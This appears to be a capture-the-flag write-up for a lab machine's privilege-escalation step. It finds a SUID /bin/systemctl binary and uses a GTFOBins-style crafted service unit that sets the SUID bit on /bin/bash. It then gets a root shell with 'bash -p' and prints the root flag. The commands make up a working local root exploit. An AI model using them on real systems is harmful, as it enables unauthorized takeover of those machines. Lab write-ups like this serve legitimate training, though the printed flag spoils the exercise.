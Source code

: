 ## On the system, search for all SUID files. What file stands out?
```
/bin/systemctl
```
# By using GTFO bins we find to escale our previlages 

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

## After a little bit of modification on the code and by running this 
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
## Then by running 
```
bash -p
```
# We are root
## Now we can navigate to our root flag 
# BOOOOOOOOOOOOOMMMMMMMMMMMMMM!!!!!!!!!!!!!!!!!!!!!!!!!!!, HERE WE GOT OUR ROOT FLAG
```
a58ff8579f0a9270368d33a9966c7fd5
```

# <3 By SIG WOTTS
